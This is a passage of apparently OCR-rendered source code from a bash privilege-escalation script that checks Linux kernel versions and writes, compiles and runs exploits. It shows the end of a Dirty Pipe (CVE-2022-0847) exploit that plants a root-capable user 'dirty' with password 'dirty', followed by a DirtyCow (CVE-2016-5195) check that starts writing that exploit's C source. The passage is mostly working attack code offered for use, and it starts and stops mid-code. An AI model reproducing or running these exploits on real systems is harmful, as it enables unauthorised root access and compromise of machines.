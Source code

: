 ```bash
    // Now we can write to the pipe_buffer
    if (write(p[1], rootline, strlen(rootline)) < 0) {
        perror("[-] Failed to write to pipe");
        close(fd);
        close(p[0]);
        close(p[1]);
        return 1;
    }
    
    // Clean up
    close(fd);
    close(p[0]);
    close(p[1]);
    
    printf("[+] Exploit completed. Try logging in as 'dirty' with password 'dirty'.\n");
    
    return 0;
}
EOF
            
        gcc -o dirty_pipe dirty_pipe.c
        chmod +x dirty_pipe
        
        echo "[+] Dirty Pipe exploit compiled. Execute './dirty_pipe' to attempt privilege escalation."
        echo "    After running, try 'su dirty' with password 'dirty'"
        
        return 0
    else
        echo "[-] Kernel $KERNEL_VERSION is not vulnerable to Dirty Pipe."
    fi
    
    return 1
}

# Function to check for CVE-2016-5195 (DirtyCow)
check_dirtycow() {
    echo "[*] Checking for DirtyCow vulnerability (CVE-2016-5195)..."
    
    # Vulnerable kernels: before 4.8.3
    KERNEL_MAJOR=$(echo "$KERNEL_VERSION" | cut -d. -f1)
    KERNEL_MINOR=$(echo "$KERNEL_VERSION" | cut -d. -f2)
    
    if [ "$KERNEL_MAJOR" -lt 4 ] || ([ "$KERNEL_MAJOR" -eq 4 ] && [ "$KERNEL_MINOR" -lt 9 ]); then
        if [ "$KERNEL_MAJOR" -eq 4 ] && [ "$KERNEL_MINOR" -eq 8 ]; then
            KERNEL_PATCH=$(echo "$KERNEL_VERSION" | cut -d. -f3 | cut -d- -f1)
            if [ -n "$KERNEL_PATCH" ] && [ "$KERNEL_PATCH" -ge 3 ]; then
                echo "[-] Kernel 4.8.$KERNEL_PATCH is not vulnerable to DirtyCow."
                return 1
            fi
        fi
        
        echo "[+] Kernel $KERNEL_VERSION may be vulnerable to DirtyCow"
        
        # Attempt to deploy DirtyCow exploit
        echo "[*] Deploying DirtyCow exploit..."
        cat > dirtycow.c << 'EOF'
#include <fcntl.h>
#include <pthread.h>
#include <string.h>
#include <stdio.h>
#include <stdint.h>
#include <sys/mman.h>
```